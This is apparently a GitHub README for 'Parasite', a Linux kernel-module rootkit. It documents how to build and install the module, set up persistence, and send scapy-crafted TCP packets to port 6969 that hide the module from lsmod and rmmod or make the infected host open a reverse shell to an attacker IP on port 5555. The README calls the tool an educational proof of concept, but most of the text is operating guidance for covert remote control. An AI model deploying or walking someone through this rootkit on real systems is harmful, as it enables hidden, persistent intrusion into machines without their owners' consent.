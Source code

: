 # Parasite
This is a rootkit written in the form of a Linux kernel module (LKM), which currently contains module hiding, RCE/reverse shell, and persistence functionalities

## Installation
NOTE - Read the disclaimer if you haven't already. Additionally, it is *highly recommended* that you use this in a VM!

Works with kernel versions 5.0 and greater, tested and built natively on 5.4.0 (Ubuntu/Debian)

The following steps assume that you have already assumed root

1. Update your system via your respective package-manager, and ensure linux-headers is installed
```sh
apt update && apt install linux-headers-$(uname -r) -y
```

2. Clone repo (or download manually)
```
git clone https://github.com/MurryPuppins/Parasite.git
```

3. Enter directory and build the kernel module (requires Make)
```
cd Parasite

make
```

4. OPTIONAL: Establish persistence with the rootkit
```sh
chmod +x persist.sh

./persist.sh
```

5. Install the module
```sh
insmod Parasite.ko
```

## Usage
Once the LKM is installed, you can verify its presence via lsmod
```sh
lsmod | grep Parasite
```

### RCE/Rootkit Usage

By default, Parasite listens for TCP packets on port 6969. The rootkit has 3 options that can be used: hide, show, and reverse shell. It doesn't matter how you send the packet, but personally I used scapy. 

Note: You *must* replace **INSERT_IP** with the rootkit-infected machine's IP



- PARASITE_HIDE - Hides the module from lsmod, thus inherently prevents it from being removed via rmmod as well
```
sr1(IP(dst="INSERT_IP")/TCP(dport=6969)/Raw(load='PARASITE_HIDE'))
```

- PARASITE_SHOW - Puts LKM back into list, thus allowing for removal via rmmod
```
sr1(IP(dst="INSERT_IP")/TCP(dport=6969)/Raw(load='PARASITE_SHOW'))
```

- PARASITE_RSHELL127.0.0.1 - This spawns a reverse shell using your IP (change 127.0.0.1 to your IP). You will need to be listening for port 5555 (default) on your machine to catch the shell
```
sr1(IP(dst="INSERT_IP")/TCP(dport=6969)/Raw(load='PARASITE_RSHELL127.0.0.1))
```

## Uninstallation
To disable Parasite from running on the host, you can remove it *assuming it isn't hidden*
```sh
rmmod LKM
```

If you ran the persistence script, you will need to undo the script. Additionally, using your preferred text editor, open up `etc/modules` and comment/remove the line containing `Parasite`
```sh
rm /lib/modules/$(uname -r)/kernel/lib/Parasite.ko

depmod -a
```


## Disclaimer
The author is in no way responsible for any illegal use of this software. It is provided purely as an educational proof of concept. I am also not responsible for any damages or mishaps that may happen in the course of using this software. Use at your own risk!

## References
https://infosecwriteups.com/linux-kernel-communication-part-1-netfilter-hooks-15c07a5a5c4e <br />
https://github.com/d3adzo/poetry <br />
http://vger.kernel.org/~davem/skb_data.html <br />
https://github.com/h3xduck/Umbra/blob/master/kernel/src/netfilter_manager.c
